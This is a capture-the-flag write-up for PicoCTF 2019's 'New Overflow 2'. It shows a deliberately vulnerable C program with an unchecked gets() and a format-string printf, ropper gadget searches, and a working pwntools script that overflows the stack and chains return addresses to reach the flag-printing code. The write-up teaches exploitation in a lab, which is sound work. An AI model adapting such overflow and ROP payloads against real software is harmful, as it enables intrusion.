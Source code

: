 [Back](PicoFrontPage.md)

# New Overflow 2
---

### Intro
* You'll need to understand 64-bit calling conventions for this challenge

### Tools Used
* GEF-GDB
* Pwntools
* Favourite text editor
* Ropper

### Source Code
```c
bool win1 = false;
bool win2 = false;

void win_fn1(unsigned int arg_check) {
  if (arg_check == 0xDEADBEEF) {
    win1 = true;
  }
}

void win_fn2(unsigned int arg_check1, unsigned int arg_check2, unsigned int arg_check3) {
  if (win1 && \
      arg_check1 == 0xBAADCAFE && \
      arg_check2 == 0xCAFEBABE && \
      arg_check3 == 0xABADBABE) {
    win2 = true;
  }
}

void win_fn() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  if (win1 && win2) {
    printf("%s", flag);
    return;
  }
  else {
    printf("Nope, not quite...\n");
  }


  

}

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}

```

#### Important Points:
* We have to set both bool variables (win1 and win2) to true so that the `win_fn()` function will print out the flag
* The `flag()` function

### Analysis
For this solution, you can actually just use the same method and script to solve it because of the `flag()` function being left in (most probably an accident).

I decided to go a different route and solve it through return-oriented programming. 
First, I tried to `pop` the arguments into the appropriate registers. 

To search for relevant ROP instructions I used ropper:
`ropper -f ./vuln`
To search for specific ROP instructions:
`ropper -f ./vuln --search "Enter instruction here"`

E.g. `ropper -f ./vuln --search "pop rdi"`

<!-- Insert pop rdi image here -->
![Pop RDI](../Images/PicoCTF2019/NewOverflow2poprdi.JPG)

However, I could not find a relevant instruction that included the `rbx` register.
So, I tried to skip directly to the addresses that set `win1` and `win2` variables to `true`.

<!-- Insert Disassembler image here -->
![win_fn1 disas](../Images/PicoCTF2019/NewOverflow2winfn1disas.JPG)

<!-- Insert Disassembler image here -->
![win_fn2 disas](../Images/PicoCTF2019/NewOverflow2winfn2disas.JPG)

I chained a bunch of `ret` instructions with the appropriate addresses and devised the appropriate script to execute.

### Exploit

Final script:

```python
from pwn import *

p = process('./vuln')

# variables
win1 = 0x400777 # win1 = true
win2 = 0x4007b4 # win2 = true
ret = 0x40028d # ret instruction
win_fn = 0x4007be # win_fn function address

#payload
payload = b'A'*72
payload += p64(ret)
payload += p64(win1)
payload += p64(ret)
payload += p64(win2)
payload += p64(ret)
payload += p64(win_fn)

# receive until character
p.recvuntil(b'?')

# send payload as one line
p.sendline(payload)

# get a shell
p.interactive()
```

To run it through the pico2019 server you'll need the `ssh` feature:
```python
s = ssh(host='2019shell1.picoctf.com', user='YourUsername', password='YourPassword')
p = s.process('AbsolutePathToProgram', cwd='TheWorkingDirectoryOfProgram')
```

Run the script and you should win.

[New Overflow 1](newoverflow1writeup.md)
